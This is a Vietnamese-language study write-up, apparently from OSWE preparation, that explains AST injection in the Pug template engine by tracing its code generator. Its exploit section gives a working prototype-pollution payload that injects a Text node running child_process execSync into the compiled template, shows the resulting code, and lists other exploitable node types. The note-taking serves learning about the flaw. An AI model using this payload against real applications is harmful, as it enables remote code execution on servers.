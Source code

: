 # AST Injection

<h1>Chỉ là note lại những gì đã học được</h1>

Trong khi đang speedrun OSWE đến những chương cuối của OSWE thì tôi gặp dạng bài Prototype Pollution (dạng bài mà tôi trước giờ chỉ copy & paste payload như 1 thằng n00b , anyway bây giờ vẫn là 1 thằng n00b) và nếu muốn rõ về cách payload hoạt động như thế nào thì tôi lại phải đi học Javascript. Một ngôn ngữ tôi không thích lắm vì logic ảo ma của nó nhưng biết sao giờ chẳng lẽ lại bỏ qua chương này và thế là lại phải học thôi !!

![](contrai.gif)

## AST là gì
Hiểu đơn giản AST (Abstract Syntax Tree) là cây biểu diễn cấu trúc cú pháp của mã nguồn của một 
ngôn ngữ nhất định ( [Chi tiết](https://www.twilio.com/blog/abstract-syntax-trees) )
![](ast.png)
AST được sử dụng thường xuyên trong JS ví dụ như: template engines, typescript, ... ( tôi cũng không rõ dùng ở typescript chỗ nào vì đọc nó bảo thế thì list nhìn cho nó dài thôi 🙃). Trong bài này thì ta tập trung vào template engines. Flow chung cho template engines như ảnh dưới đây:
![](template.jpg)

## Pug Template Engines
Trong bàhi này ta sẽ đi vào cụ thể một template engines đó là Pug vì đây là một trong nững template engines khá phổ biến của JS. Flow của Pug như sau:
![](pugast.jpg)
Đầu tiên chúng ta xem cách khao báo để tạo ra một template.
```
const pug = require('pug');

// Compile the source code
const compiledFunction = pug.compileFile('template.pug');

// Render a set of data
console.log(compiledFunction({
  name: 'Timothy'
}));
// "<p>Timothy's Pug source code!</p>"

// Render another set of data
console.log(compiledFunction({
  name: 'Forbes'
}));
// "<p>Forbes's Pug source code!</p>"
```
Ở đây nhận tham số đầu vào là một file có chứa các cú pháp của Pug. Sau khi xem xét qua hàm thì tôi tóm gọn lại là flow như sau **compileFile => handleTemplateCache => compile** nên chúng ta sẽ bắt đầu từ hàm compile(/pug/lib/index.js).

Trong hàm **compile** sẽ gọi đến hàm **compileBody** (hàm này trả về 1 object có thuộc tính *body* chứa code JS được tạo ra)
```
function compileBody(str, options) {
...
  var ast = load.string(str, { //magic })
...
  return {body: js, dependencies: dependencies};
}
```
Tiếp tục gọi đến hàm **load** và 1 cách magic ta có được giá trị AST. Sau khi có AST thì nó được truyền vào hàm **generateCode** (như cái tên của nó hàm này trả về code JS được tạo bởi AST)
```
var js = (findReplacementFunc(plugins, 'generateCode') || generateCode)(ast, {
    pretty: options.pretty,
    compileDebug: options.compileDebug,
    doctype: options.doctype,
    inlineRuntimeFunctions: options.inlineRuntimeFunctions,
    globals: options.globals,
    self: options.self,
    includeSources: options.includeSources ? debug_sources : false,
    templateName: options.templateName,
  });
```
Lần mò vào hàm **generateCode** thì hàm này tạo ra một đối tượng **Compiler** và gọi đến phương thức **compile**
```
function generateCode(ast, options) {
  return new Compiler(ast, options).compile();
}
=>
  compile: function() {
...
    this.visit(this.node); // code được gen và đẩy vào buff ở đây
...
```
Từ đây tất cả logic tạo code js từ AST đều ở đây.Ta sẽ phân tích 1 ví dụ như sau: 
```
const pug = require('pug');
compiledFunction = pug.compile("nothing",{debug:true})
```
Bây giờ giá trị của AST sẽ là:

![](astvalue.png)

Flow cơ bản của quá trình này là 

```
 visit: function(node, parent) {
    var debug = this.debug;

    if (!node) { 
        ... 
    }

    if (debug && node.debug !== false && node.type !== 'Block') {
      if (node.line) {
        var js = ';pug_debug_line = ' + node.line;
        if (node.filename)
          js += ';pug_debug_filename = ' + stringify(node.filename);
        this.buf.push(js + ';');
      }
    }

    if (!this['visit' + node.type]) { // Kiểm tra valid type của node
    ...
    }

    this.visitNode(node); // gọi đến hàm gen code với các type tương ứng
  }
```
Một số hàm gen code với các type
```
  visitText: function(text) {
    this.buffer(text.val);
  }
-------------------------------------------------------
  visitComment: function(comment) {
    if (!comment.buffer) return;
    if (this.pp) this.prettyIndent(1, true);
    this.buffer('<!--' + comment.val + '-->');
  }
-------------------------------------------------------
  visitCode: function(code) {
    // Wrap code blocks with {}.
    // we only wrap unbuffered code blocks ATM
    // since they are usually flow control

    // Buffer code
    if (code.buffer) {
      var val = code.val.trim();
      val = 'null == (pug_interp = ' + val + ') ? "" : pug_interp';
      if (code.mustEscape !== false)
        val = this.runtime('escape') + '(' + val + ')';
      this.bufferExpression(val);
    } else {
      this.buf.push(code.val);
    }

    // Block support
    if (code.block) {
      if (!code.buffer) this.buf.push('{');
      this.visit(code.block, code);
      if (!code.buffer) this.buf.push('}');
    }
  },
 
```

## Exp
Payload Prototype Injection
```
const pug = require('pug');
Object.prototype.block = {"type": "Text", "line": "console.log(process.mainModule.require('child_process').execSync('id').toString())"};
pug.compile('h1= msg', {debug:true});
```
Template Function được trả về đã được injection
```
Compiled Function:

  function template(locals) {var pug_html = "", pug_mixins = {}, pug_interp;var pug_debug_filename, pug_debug_line;try {;
      var locals_for_with = (locals || {});
      
      (function (console, msg, process) {
        ;pug_debug_line = 1;
  pug_html = pug_html + "\u003Ch1\u003E";
  ;pug_debug_line = 1;
  pug_html = pug_html + (pug.escape(null == (pug_interp = msg) ? "" : pug_interp));
  ;pug_debug_line = console.log(process.mainModule.require('child_process').execSync('id').toString());
  pug_html = pug_html + "ndefine\u003C\u002Fh1\u003E";
      }.call(this, "console" in locals_for_with ?
          locals_for_with.console :
          typeof console !== 'undefined' ? console : undefined, "msg" in locals_for_with ?
          locals_for_with.msg :
          typeof msg !== 'undefined' ? msg : undefined, "process" in locals_for_with ?
          locals_for_with.process :
          typeof process !== 'undefined' ? process : undefined));
      ;} catch (err) {pug.rethrow(err, pug_debug_filename, pug_debug_line);};return pug_html;}
```

Lúc này trong đầu mình có câu hỏi tại sao lại là type Text chứ không phải các type khác và liệu có type nào còn có thể khai thác được không.
Sau 1 hồi debug thì mình tìm ra được các type có thể lợi dụng cần phải thỏa mãn 2 điều kiện:
* Có hàm visit*Type* (visitCode, visitTag, ..)
* Thuộc các case sau để tránh gọi đến hàm walkAST 1 lần nữa và mình tìm thêm được 1 số type hợp lệ.
```
    case 'Attrs':
    case 'BlockComment': // work
    case 'Comment': // work
    case 'Doctype': // work
    case 'IncludeFilter':
    case 'MixinBlock': // work
    case 'YieldBlock': // work 
    case 'Text': // 
      break;
```
Liệu payload trên có hoạt động với mọi template không? => Câu trả lời là không nếu template không tham chiếu đến giá trị nhận từ argument.( điều này khó xảy ra vì nếu không tham chiếu đến đến các biến được truyền vào thì đã không sử dụng template từ ban đầu)
Ví dụ về một template mà payload trên không hoạt động.
```
pug.compile('h1', {debug:true})
----------------------------------
Compiled Function:

  function template(locals) {var pug_html = "", pug_mixins = {}, pug_interp;var pug_debug_filename, pug_debug_line;try {;pug_debug_line = 1;
  pug_html = pug_html + "\u003Ch1\u003E\u003C\u002Fh1\u003E";} catch (err) {pug.rethrow(err, pug_debug_filename, pug_debug_line);};return pug_html;}
```

Tuy nhiên mình phát hiện ngay cả trong trường hợp trên, ta vẫn có thể khai thác được cũng bằng Prototype Pollution và mình để tự bạn tìm ra câu trả lời cho trường hợp trên. (dễ quá nó chán lắm 😂😂)
![](tem.png)
